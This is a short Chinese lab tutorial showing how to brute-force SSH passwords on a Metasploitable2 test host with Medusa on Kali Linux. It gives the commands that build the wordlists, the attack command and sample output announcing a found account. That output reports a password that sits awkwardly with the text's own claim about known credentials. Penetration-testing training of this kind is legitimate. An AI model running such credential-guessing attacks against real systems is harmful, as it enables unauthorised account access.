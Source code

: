 ## 使用Medusa暴力破解ssh账号密码

1、进入kali系统
2、系统本身自带了这个工具， 在应用程序-Kali Linux-密码攻击-在线攻击-medusa
3、打开后会进入shell终端，显示的是medusa的帮助
4、先生成用户和密码文件，这个取决于自己，可以生成N个密码和账户，挨着去测试。
5、本身我们就知道metasploitable2的账号密码，作为测试就生成这几个就可以了。
```bash
[root@kali: ~#] echo -e "msfadmin\nroot\nuser\npostgres\nsys\nklog\nservice" >> user.txt
[root@kali: ~#] echo -e "1234567\nmeiyoumima\nuser\n123456789\nmsfadmin\npostgres\nbatman\nservice" >> passwd.txt
[root@kali: ~#] cat user.txt
msfadmin
root
user
postgres
sys
klog
service
[root@kali: ~#] cat passwd.txt
1234567
meiyoumima
user
123456789
msfadmin
postgres
batman
service
#用户和密码文件都生成了
#开始用medusa暴力破解
root@kali:~# medusa -h metasploitable2 -U user.txt -P passwd.txt -M ssh

ACCOUNT CHECK: [ssh] Host: metasploitable2 (1 of 1, 0 complete) User: msfadmin (1 of 7, 0 complete) Password: 1234567 (1 of 8 complete)
ACCOUNT CHECK: [ssh] Host: metasploitable2 (1 of 1, 0 complete) User: msfadmin (1 of 7, 0 complete) Password: meiyoumima (2 of 8 complete)
ACCOUNT FOUND: [ssh] Host: metasploitable2 User: msfadmin Password: meiyoumima [SUCCESS]
```
6、以上就是medusa的基本使用方式，最后得到结果，可以加上`-O`把成功的
用户密码输出到日志文件中，更多使用方式请查看`medusa --help`